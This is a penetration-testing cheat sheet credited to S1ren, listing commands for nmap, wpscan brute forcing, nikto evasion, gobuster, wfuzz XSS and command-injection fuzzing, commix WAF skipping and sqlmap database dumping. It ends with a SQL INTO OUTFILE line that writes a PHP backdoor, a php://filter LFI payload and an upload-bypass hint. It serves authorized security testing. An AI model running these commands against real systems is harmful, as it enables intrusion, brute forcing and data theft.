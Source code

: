# Common Tools
### Credit: S1ren@sirensecurity.io [Original Source](https://sirensecurity.io/blog/common/)

## Nmap
```bash
nmap -p- -sT -sV -A $IP
nmap -p- -sC -sV $IP --open
nmap -p- --script=vuln $IP
```
### HTTP-Methods
```bash
nmap  --script http-methods --script-args http-methods.url-path='/website' 
      --script smb-enum-shares
nmap -p80,443 --script=http-methods  --script-args http-methods.url-path='/directory/goes/here'
```
### sed IPs:
```bash
grep -oE '((1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.){3}(1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])' FILE
```

## WPScan & SSL
```bash
wpscan --url $URL --disable-tls-checks --enumerate p --enumerate t --enumerate u
```
### WPScan Brute Forceing:
```bash
wpscan --url $URL --disable-tls-checks -U users -P /usr/share/wordlists/rockyou.txt
```

### Aggressive Plugin Detection:
```bash
wpscan --url $URL --enumerate p --plugins-detection aggressive
```

## Nikto with SSL and Evasion

```bash
nikto --host $IP -ssl -evasion 1
```
[See Evasion Modalities](https://www.kali.org/tools/nikto/)

## DNS/recon
```bash
dnsrecon –d yourdomain.com
```

### Gobuster directory
```bash
gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30
```
### Gobuster files
```bash
gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30
```

### Gobuster for SubDomain brute forcing:
```bash
gobuster dns -d domain.org -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 30
```
"WARNING: Make sure any DNS name you find resolves to an in-scope address before you test it"

### Extract IPs from a text file.
```bash
grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' nmapfile.txt
```

### Wfuzz XSS Fuzzing
```bash
wfuzz -c -z file,/opt/SecLists/Fuzzing/XSS/XSS-BruteLogic.txt "$URL"
wfuzz -c -z file,/opt/SecLists/Fuzzing/XSS/XSS-Jhaddix.txt "$URL"
```
### COMMAND INJECTION WITH POST DATA
```bash
wfuzz -c -z file,/opt/SecLists/Fuzzing/command-injection-commix.txt -d "doi=FUZZ" "$URL"
```

### Test for Parameter Existence!
```bash
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt "$URL"
```

### AUTHENTICATED FUZZING DIRECTORIES
```bash
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt --hc 404 -d "SESSIONID=value" "$URL"
```

### AUTHENTICATED FILE FUZZING:
```bash
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-medium-files.txt --hc 404 -d "SESSIONID=value" "$URL"
```

### FUZZ Directories:
```bash
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL"
```

### FUZZ FILES:
```bash
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
|
LARGE WORDS:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-words.txt --hc 404 "$URL"
|
USERS:
wfuzz -c -z file,/opt/SecLists/Usernames/top-usernames-shortlist.txt --hc 404,403 "$URL"
```

### Command Injection with commix, ssl, waf, random agent.
```bash
commix --url="https://supermegaleetultradomain.com?parameter=" --level=3 --force-ssl --skip-waf --random-agent
```

### SQLMap
```bash
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl
sqlmap -u $URL --threads=2 --time-sec=10 --level=4 --risk=3 --dump
```


## Social Recon
### theharvester
```bash
theharvester -d domain.org -l 500 -b google
```



## SMTP User Enumeration
### smtp-user-enum
```bash
smtp-user-enum -M VRFY -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M RCPT -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
```

===Command Execution Verification - [Ping check]
tcpdump -i any -c5 icmp
====
#Check Network
netdiscover /r 0.0.0.0/24
====
#INTO OUTFILE D00R
SELECT “” into outfile “/var/www/WEROOT/backdoor.php”;
====
LFI?
#PHP Filter Checks.
php://filter/convert.base64-encode/resource=
====
UPLOAD IMAGE?
GIF89a1

S1REN'S COMMON IMPLIES THAT YOU HAVE SECLISTS IN /opt/SecLists/
https://github.com/danielmiessler/SecLists


